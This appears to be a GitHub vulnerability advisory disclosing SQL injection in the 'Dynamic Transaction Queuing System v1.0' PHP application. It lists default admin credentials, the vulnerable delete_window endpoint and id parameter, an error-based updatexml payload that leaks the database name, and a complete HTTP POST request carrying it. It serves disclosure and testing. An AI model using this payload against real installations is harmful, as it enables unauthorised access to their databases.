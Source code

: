 # Dynamic Transaction Queuing System v1.0 by oretnom23 has SQL injection

Vulnerability Discoverer:  Yang Tao, TBLab of Venustech

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14479/dynamic-transaction-queuing-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /queuing/admin/ajax.php?action=delete_window

Vulnerability location: /queuing/admin/ajax.php?action=delete_window, id

dbname =queuing_db

[+] Payload: id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0) // Leak place ---> id

```sql
POST /queuing/admin/ajax.php?action=delete_window HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=t4551shae3529036q2g0j8luub
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)
```

![image](https://user-images.githubusercontent.com/54017627/200097229-56f2dc0e-e7cd-4601-a777-5c2a3b4b7ddb.png)
